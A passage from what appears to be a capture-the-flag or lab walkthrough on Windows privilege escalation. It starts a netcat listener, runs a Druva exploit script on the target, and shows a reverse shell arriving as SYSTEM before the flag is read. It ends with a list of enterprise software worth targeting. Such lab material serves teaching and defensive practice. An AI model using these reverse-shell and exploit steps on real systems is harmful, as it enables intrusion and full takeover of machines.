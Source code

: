 #### 5. Start Netcat Listener on Pwnbox
```bash
# Start listener on same port as specified in shell.ps1
nc -lvnp 9443

# Expected output:
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9443
Ncat: Listening on 0.0.0.0:9443
```

#### 6. Execute Druva Exploit
```powershell
# On Windows target, navigate to C:\Tools in PowerShell
cd C:\Tools

# Execute the Druva exploit script
.\Druva.ps1

# Expected output:
22
4
4
316
```

#### 7. Receive SYSTEM Shell
```bash
# On Pwnbox nc listener, you should receive connection:
Ncat: Connection from 10.129.43.44.
Ncat: Connection from 10.129.43.44:55778.
Windows PowerShell running as user WINLPE-WS01$ on WINLPE-WS01
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\WINDOWS\system32>
```

#### 8. Access Flag
```powershell
# Verify SYSTEM privileges and access flag
whoami
# Should show: nt authority\system

# Access the flag file
type C:\Users\Administrator\Desktop\VulServices\flag.txt

# Flag: ...
```

## 🔄 Additional Vulnerable Services

### Common Third-Party Targets
```cmd
# High-risk applications often found in enterprise:
- Backup software (Druva, Veeam, etc.)
- Remote management tools (TeamViewer, VNC, etc.)
- Development tools (Git clients, IDEs, etc.)
- Database clients (MySQL Workbench, etc.)
- File sharing applications
- Antivirus/security software
```
